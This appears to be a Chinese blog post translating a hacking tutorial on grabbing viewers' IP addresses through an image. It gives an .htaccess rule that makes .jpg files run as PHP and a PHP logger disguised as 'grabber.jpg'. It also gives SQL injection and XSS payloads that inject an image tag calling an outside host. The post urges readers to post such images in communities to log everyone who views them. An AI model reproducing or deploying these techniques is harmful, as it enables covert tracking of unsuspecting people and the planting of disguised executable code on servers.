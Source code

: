```yaml
---
layout: post
title: 如何通过一张照片来获取ip地址？
categories:
- 今日头条
tags:
---
```

![](http://p3.pstatp.com/large/4860003776ff1320546)

通过对htaccess的利用，实现用一张照片获取他人的ip地址

在本教程中，我们将学习如何用一张照片来盗取ip地址。我的想法是通过修改.htaccess文件，将jpg文件当作php文件来解析。

下面就是我们需要向.htaccess中添加的代码：

AddHandler application/x-httpd-php5 .jpg

然后将下面的代码复制到记事本中，命名为grabber.jpg

<?php$fh = fopen('ip_list.txt', 'a');fwrite($fh, $_SERVER['REMOTE_ADDR']."");fclose($fh);$im = imagecreatefromjpeg("n00b.png");header('Content-Type: image/jpeg');imagejpeg($im);imagedestroy($im);?>

将grabber.jpg的权限设置为755，然后再找一张照片，将其命名为n00b.png，接着放到与grabber.jpg相同的目录之中。

就这样，一切工作就绪了。当别人浏览grabber.jpg这张照片的时候，他的ip地址就会被记录下来。

（译者注：需要把这些东西上传至我们的个人网站空间中）

POC：

(译者注：作者这里贴了一张可获取ip的演示照片，为了大家的隐私，我没有将其贴出，读者可自行去作者博客查看)

至此，我们的照片已经可以开始工作了。

接着我还想说明一下如何使用SQLi来获取ip地址。其实使用照片来盗取ip地址十分快捷，我们没有理由去使用SQLi这种方法，但是为了让读者获取到更多的知识，我还是说明一下吧：

http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1' union select 1,0x3c696d67207372633d22687474703a2f2f6c65657474696d652e6e65742f6964696f74735f746573745f6c61622f696d61676569702f7472796d652e6a7067223e,3#

现在，再说一下如何使用xss来获取ip地址：

http://leettime.net/xsslab1/chalg1.php?name=<img src="http://leettime.net/idiots_test_lab/imageip/tryme.jpg">&submit=Search

好了，就是这些了。

我们可以用这个技巧做许多有趣的事情，事实上大部分社区都允许我们发布一些照片，所以我们可以用这个方法去获取所有访问到我们照片的人的ip地址。

想了解更多关于「互联网安全」或「黑客资讯」？请在微信或QQ搜索公众号：互联网安全